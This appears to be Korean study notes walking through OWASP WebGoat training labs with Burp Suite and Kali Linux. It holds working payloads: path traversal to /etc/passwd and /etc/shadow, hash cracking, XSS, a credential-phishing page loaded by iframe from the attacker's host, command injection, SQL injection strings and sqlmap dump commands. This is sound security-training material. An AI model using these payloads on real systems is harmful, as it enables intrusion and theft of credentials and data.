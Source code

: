 
1. General
Burp Suite
General 메뉴에서 대기하고 burp에서 인터셉트 하기 위해 새로고침
Cookie : JESSIONID=~
  ~부분 복사하고 인터셉트 off
웹페이지에 붙혀놓고 Go
성공

3. Access Control Flaws 
  Bypass a Path Based Access Control Scheme ( 경로 변경 )
Burp Suite
View File 인터셉트 키고 View File클릭
request : File=Phishing.html
  ../../../../../../../../../etc/passwd로 변경
  Congratulations뜨면서 /etc/passwd 확인
  /etc/shadow도 같은방식

칼리에 파일하나 생성 후 /etc/shadow값 복사 붙여넣기
john "파일명"
   root / root

burp에서 했던 방식으로 File에 ../../../../../WEB-INF/spring-security.xml 입력
내용 확인

5. AJAX Security
LAB: DOM-Based cross-site scripting
이미지 파일의 경로 : /WebGoat/images/logos/owasp.jpg
`<img src="/WebGoat/images/logos/owasp.jpg">`
  이미지 확인

Submit
Stage 1 Completed

`<img src=x onerror=alert("webgoat")>`
`<img src=x onerror='document.body.innerHTML="<img src=/WebGoat/images/logos/owasp.jpg>"'>`
Submit
Stage 2 Completed

7. Authentication Flaws
Multi Level Login 2
Joe / banana
Submit
15161
Submit
정보 확인

Joe / banana
Submit
15161
Burp로 인터셉트
request 값에 hidden_user=Jane으로 변경
성공

9. Code Quality
Discover Clues in the HTML
개발자도구 : 계정이 주석처리
admin / adminpw

10. Cross-Site Scripting (XSS)
Phishing with XSS
vi pish.html
	`<html>`
	`<body>`
	`<font color=red>User Authontication is Required.</font>`
	`<p>`
	`<form id=hack action=/ method=GET>`
	`USername<br>`
	`<input type=text name=id><br>`
	`Password<br>`
	`<input type=password name=pass><br>`
	`<input type=submit value=Login onclick="document.getElementByid('hack').submit()">`
	`</form>`
	`</body>`
	`</html>`

systemctl start apache2
cp pish.html /var/www/html/
Kali IP/pish.html접속
로그인 페이지

`<script>alert("1")</script>` 입력 후 Search
`<p> <p><iframe frameborder=0 width=400 height=200 src=http://192.168.56.106/pish.html></iframe>`
Search
만들었던 html 페이지
  이렇게 코드를 심어놓고 누군가 로그인창에다가 눈치 못채고 로그인을 하게된다면 로그인 정보가 나에게 넘어옴
  로그인을 시도 했다면 /var/log/access.log에서 기록 확인

11. Command Injection
---
Command Injection
---
아무거나 선택 후 Burp로 인터셉트
Request 값에 HelpFile="읽고자 하는 파일"
HelpFile=../../../../../../../../../etc/passwd
HelpFile=CSRF.help%22%26id%26%22 로 변경하고 forward("&id&"를 URL encoding)
CSRF.help가 나오면서 id값이 출력된다
명령을 치려면 URL encoding 필수

---
Numeric SQL Injection
---
아무거나 선택 후 Burp에서 인터셉트
Request 값 Station=101 뒤에 ' 추가 
구문오류
Station=101%20or%201=1

sqlmap도 가능
sqlmap --cookie="JSESSIONID=4E962E5EF183E0CF47B6F402939BF5E0" -u "http://192.168.56.147:8080/WebGoat/attack?Screen=716&menu=1100&station=101&SUBMIT=Go%21" -p station --dbs --dump

---
String SQL Injection
---
Smith입력 
Go 
  db내용 확인
Smith' or 1=1 -- 
  다른 사용자 내용도 확인 가능

sqlmap --cookie "JSESSIONID=4E962E5EF183E0CF47B6F402939BF5E0" -u "/WebGoat/attack?Screen=735&menu=1100&account_name=Smith&SUBMIT=Go%21"  -p account_name --dbs --dump
